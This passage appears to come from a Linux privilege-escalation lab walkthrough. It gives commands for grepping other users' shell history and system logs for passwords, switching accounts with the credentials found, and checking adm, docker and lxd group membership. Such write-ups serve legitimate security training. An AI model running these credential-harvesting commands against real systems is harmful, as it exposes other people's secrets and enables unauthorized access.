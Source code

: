 #### Systematic Credential Search
```bash
# Search for passwords in history files
grep -i "password\|pass\|pwd\|secret" /home/*/.bash_history 2>/dev/null

# Look for SSH commands with passwords
grep -i "ssh.*pass" /home/*/.bash_history 2>/dev/null

# Search for database connections
grep -i "mysql.*-p" /home/*/.bash_history 2>/dev/null
```

#### User Switching
```bash
# Test discovered credentials
su target_user
# Enter discovered password

# Verify access and read user-specific files
cat /home/target_user/sensitive_file.txt
```

**Key Learning**: Command history files are goldmines for credential discovery - administrators often leave passwords in command line history during troubleshooting or automation tasks.

---

### Phase 3: Group Privilege Exploitation

**Objective**: Leverage group memberships for accessing restricted files and directories

#### Group Membership Analysis
```bash
# Check current user's group memberships
id
groups

# Analyze group privileges
getent group adm
getent group disk
getent group docker
getent group lxd
```

#### ADM Group Exploitation
```bash
# ADM group provides access to log files
ls -la /var/log/

# Read system logs for sensitive information
find /var/log -readable 2>/dev/null

# Search logs for passwords or credentials
grep -r "password\|secret" /var/log/ 2>/dev/null
```
